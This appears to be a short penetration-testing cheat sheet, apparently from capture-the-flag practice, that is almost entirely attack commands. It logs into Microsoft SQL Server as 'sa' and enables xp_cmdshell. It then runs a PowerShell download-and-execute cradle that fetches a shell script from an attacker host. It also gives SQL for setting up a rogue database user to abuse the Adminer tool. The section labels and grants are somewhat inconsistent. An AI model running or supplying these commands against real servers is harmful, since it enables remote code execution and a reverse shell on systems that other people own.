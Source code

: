 ##### MYSQL
```
sqsh -S <ip> -U sa -P <password>
```

Enable xp_cmdshell into RvShell

```
xp_cmdshell 'whoami'
go
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "IEX(New-Object Net.WebClient).downloadString(\"http://<ip>:8000/shell.ps1\")"'
go
```

Stuff for adminer.php (Set up user on kali mysql to connect to remote target sql. see https://www.foregenix.com/blog/serious-vulnerability-discovered-in-adminer-tool
```
CREATE DATABASE 'exploitdb';
CREATE USER exploituser@<KALIIP> IDENTIFIED BY 'PASSWORD';   
GRANT ALL PRIVILEGES ON htb_admirer.* TO exploituser@10.10.14.2 WITH GRANT OPTION;
CREATE USER admirer@'%' IDENTIFIED BY 'PASSWORD';   
GRANT ALL PRIVILEGES ON exploitdb.* TO exploituser@'%' WITH GRANT OPTION;
FLUSH PRIVILEGES;
use EXPLOITDB;
CREATE TABLE test( 
  > name  VARCHAR(255),
  > color CHAR(7),
  > PRIMARY KEY (name) 
);
```
